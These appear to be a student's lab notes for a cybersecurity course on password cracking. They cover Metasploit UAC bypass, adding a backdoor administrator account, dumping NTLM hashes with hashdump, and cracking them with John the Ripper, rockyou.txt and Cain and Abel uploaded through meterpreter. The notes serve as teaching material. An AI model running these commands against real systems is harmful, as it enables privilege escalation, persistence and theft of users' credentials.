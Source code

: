 # Password Cracking
### 3/30/2022

 * Options: John the Reaper or Crack the Password
 * Must always have a valid reverse shell connection
 * Inorder to get the password we need the hash

* Get to the point of "exploit" with the reverseshell session with meterpreter
* Hashes associated with the user are LM Hash (this is old and weak) or NtLM hash (this is newer and stronger)

`background
sessions

search bypassuac
use exploit/windows/local/bypassuac
set session 1
show options
exploit

net user
shell
net user /add Kristiana passWoRd
net localgroup administrator Kristiana /add`
  
### John the Ripper Method  
 `hashdump 
 josh WinHash` *** NOTE: this is a dictionary attack
 `ls`
 
We have the options of format and wordlist John the Ripper

`john Winhash --format=NT
johnWinHash --format=NT --show` Returns "# password hashes cracked, # left" (# is the number)
`gunzip /usr/shar/wordlists/rockyou.txt.gz
cp /usr/shar/wordlists/rockyou.txt ./
ls
johnWinHash --wordlist=rockyou.txt --format=NT` *** NOTE: this added the dictionary file

`john --list=formats` this lists all the formats possile for the file
`john --list=formats |grep MD5` lists the MD5 family of formats

`cp WinHash Winhash2
john WinHash2 --wordlist=rockyou.txt --format=NT`

//assignment practice linuz password cracking 
* Need to create new set of users and passwords
* Create some simple passwords and some strong passwords

* You are not expected to be able to crack all of them
* You can just use the GUIs to make the user with the password 
* Just meant to prove a concept, so you only have to actually crack one or two

* For each task you use the users that you made at the beginning of the assignment
* For the last task with the sample hash passwords you can copy the hash into a test document to make life easier rather than type it out

#### Extra Credit
* Use a different dictionary file (other than rockyou.txt) from the internet

`john md5.txt ` md5.txt is the file with the hash
`rm /root/.j/john.rec` // recovers file
`john md5.txt --format=Raw-MD5`


### Cain and Able Method
* Must transport/upload the executable file to the target machine, create an account to rmote login and finish the installation

#### Attacker side
To Upload:
`upload /root/CYSE301/Module\ IV-Password Cracking ca_setup.exe C:\\` uploads folder to the C-Drive
`ca)stup
execute - f C:\\ca_setup,exe`
* You can execute other programs remotely too


#### New Terminal In Attacker
`rdesktop 192.168.10.9 -u BreakU -p password`
Now run it in the C drive of the target and finish instalation and you will see a cain desktop shortcut
It will then say it can't finish work correctly, click ok and it opens the program

We are going to use a cracker feature
1. *Cracker* tab
2. *LM & NTLM Hashes* option on the left hand side 
* You must select the correct hash you want to crack
3. Click *+* at the top for the add to list function and it will open something click *ok* and it will upload all the user passwords from the ystem
* Opens up a list of all the users and gives you the hashes
* Compare the hashes to the ones from the hashdump that we stored in the file with WinHash
  * *User:PermissionNumber:LMHash:NTHash:::* was what we got from hashdump
4. Dictionary file, click the blank under file and add the path to the desired wordlist
  * You want to use all options other than *Case perms*
5. Click *Start*
6. Will fill in the passwrod in your list as they are cracked
7. Open the *Brute-Force Attack*
8. Change *min*/*max* password length (in this case we are making both 4)
9. Click *Predefined* choose the option you want- it will try to check it will those characters only
10. Click *Start*
* Tells you how long it will run in order to crack it
* Time left is the amount of time it is estimated to go through all the possible combinations
How can we make this faster?
* Use GPU instead of CPU to crack
* Use newer hardware
* Decrease password length
 * the longer and more diverse you password is, the harder it is to crack







 
 
 
 
